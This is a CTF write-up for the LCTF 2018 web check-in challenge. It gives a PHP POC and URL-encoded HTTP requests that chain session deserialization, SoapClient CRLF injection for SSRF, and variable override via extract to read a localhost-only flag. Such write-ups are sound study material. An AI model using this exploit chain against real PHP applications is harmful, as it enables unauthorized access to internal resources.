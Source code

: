 ### References

- [@N0rth3ty, 从LCTF WEB签到题看PHP反序列化, 2018-11-20](https://xz.aliyun.com/t/3336)

**Tag: Session unserialize, Variable override, SoapClient**

1.find flag.php and the hint is:

```php
only localhost can get flag!
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){
    $_SESSION['flag'] = $flag;
}
```

It's clear that SSRF needs to be used here. SSRF can be triggered using the `SoapClient` unserialize.

Since the flag will be inserted into `$session`, we need access it with Cookie containing the `PHPSESSID` to generate this session file.

POC:

```php
<?php
$target = "http://127.0.0.1/flag.php";
$a = new SoapClient(null,array(
    'location'   => $target,
    'user_agent' => "test\r\nCookie: PHPSESSID=plzgivemeflag\r\n",
    'uri'        => "test"
));
$poc = urlencode(serialize($a));
echo $poc;
```

2.The problem is we can't find any unserialize operations in the `index.php` page. Then i noticed the `session_start()` function, means that we can use session unserialize.

The default `session.serialize_handler` is `php`, therefore, we should change the `serialize_handler` on the index page to `php_serialize`:

```tex
POST /index.php?f=ini_set&name=|[poc data here] HTTP/1.1
...
serialize_handler=php_serialize
```

But the `ini_set` function does not accept array argument. In fact, as you can see in the php manual, the [session_start](https://www.php.net/manual/en/function.session-start) function can also set options and use array as the parameter.

So the session file can be generated with the following poc:

```tex
POST /index.php?f=session_start&name=|O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A4%3A%22test%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A39%3A%22test%0D%0ACookie%3A+PHPSESSID%3Dplzgivemeflag%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D HTTP/1.1
...
serialize_handler=php_serialize
```

Don't forget the `|` character ;)

3.Unserialize is automatically triggered when the page is reloaded, however, SSRF will not be triggered, the `__call` magic function is need.

So we also need to call a method in that object that does not exist. Variable overrides come in handy:

```php
$b = 'implode';
call_user_func($_GET['f'], $_POST);
...
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
```

Here you can use the `extract` function to override `$b` to `call_user_func`:

```tex
POST /index.php?f=extract HTTP/1.1
...
b=call_user_func
```

This will call the welcome_to_the_lctf2018 function in the session object we constructed and trigger the `__call` method.

Finally, just change the cookie to the one we set in SSRF POC to get the flag

![](https://i.imgur.com/ZcosxmV.png)

